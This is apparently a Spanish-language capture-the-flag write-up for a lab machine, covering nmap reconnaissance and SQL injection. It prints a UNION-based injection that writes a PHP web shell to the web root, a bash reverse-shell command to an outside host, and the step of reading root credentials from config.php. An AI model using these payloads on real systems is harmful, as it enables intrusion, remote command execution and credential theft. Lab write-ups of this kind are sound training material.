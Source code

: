 ----
- Tags: #sqli
-----
# Resolución

==Esta máquina posee algunos conflictos al seguir el paso a paso, por lo tanto es necesario repetir varias veces en caso de que no funcione la solución==

## Reconocimiento

### NMAP

**Puertos**
```js
Nmap 7.94SVN scan initiated Tue Nov 19 15:56:23 2024 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oN allPorts 10.10.11.116
Nmap scan report for 10.10.11.116
Host is up, received user-set (0.18s latency).
Scanned at 2024-11-19 15:56:23 -03 for 17s
Not shown: 65522 closed tcp ports (reset), 9 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 62
4566/tcp open  kwtc       syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Tue Nov 19 15:56:41 2024 -- 1 IP address (1 host up) scanned in 18.02 seconds
```

**Servicios**
```js
Nmap 7.94SVN scan initiated Tue Nov 19 15:58:01 2024 as: nmap -p22,80,4566,8080 -sCV -oN services 10.10.11.116
Nmap scan report for 10.10.11.116
Host is up (0.18s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 19 15:58:20 2024 -- 1 IP address (1 host up) scanned in 19.00 seconds
```

-----
## Explotación

Encontramos dentro del *puerto 80* un servicio HTTP corriendo con un primer campo de entrada y un segundo que permite seleccionar un país.
Interceptando con ``Burpsuite`` notamos que el campo de "*País*" se puede modificar a diferencia de la web que no se podía ya que daba opciones pre-establecidas, por lo tanto comenzamos a probar métodos.

### SQLI

Ejecutamos una **SQLI** clásica, con eso veremos que no ganamos datos de ningún tipo ya que en la base de datos no se encuentra información de utilidad, por lo tanto intentamos depositar contenido en una ruta para ver si es posible.

- ``' union select 'probando' into outfile "/var/www/html/probando.txt"``

Luego de enviar la petición con los datos anteriores, si nos dirigimos a http://ip-máquina/probando.txt veremos la cadena "*probando*". Al verificar que esto es posible vamos a intentar depositar contenido malicioso con **código PHP** con un archivo con dicha extensión.

```php
Brazil' union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/cmd.php"-- -
```

Si nos dirigimos a http://ip-máquina/cmd.php veremos un **Warning**, esto es buena señal ya que si colocamos ``?cmd=`` al final del URL, haremos referencia al parámetro creado previamente por nosotros en el código malicioso, de esta forma podremos **controlar el comando que deseemos ejecutar** desde ahí por ejemplo ``?cmd=whoami``. En mi caso voy a entablar una **Reverse Shell**.

```bash
http://ip-máquina/cmd.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'
```

Una vez dentro de la máquina si listamos el contenido del directorio ``/var/www/html`` veremos un archivo llamado **``config.php``**, este tendrá consigo las credenciales del usuario root, por lo tanto simplemente nos autenticamos y reclamamos la **flag** en el directorio ``/root``.